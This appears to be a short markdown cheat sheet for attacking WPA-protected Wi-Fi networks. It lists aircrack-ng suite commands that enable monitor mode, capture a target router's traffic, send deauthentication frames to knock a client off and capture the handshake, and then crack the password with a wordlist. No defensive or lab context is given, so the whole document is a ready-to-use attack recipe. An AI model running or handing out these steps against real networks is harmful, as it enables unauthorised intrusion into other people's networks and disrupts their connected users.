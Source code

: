 # WPA Wi-FI Attack

## Capture
- airmon-ng
- airmon-ng start wlan0
- airodump-ng mon0
- airodump-ng -c 6 --bssid <router> -w /root/Desktop/ mon0
- aireplay-ng -0 2 -a <router> -c <client> mon0
## Crack Password
- aircrack-ng -a2 -b <router> -w /usr/share/wordlists/fern-wifi/common.txt /Root/Desktop/*.cap



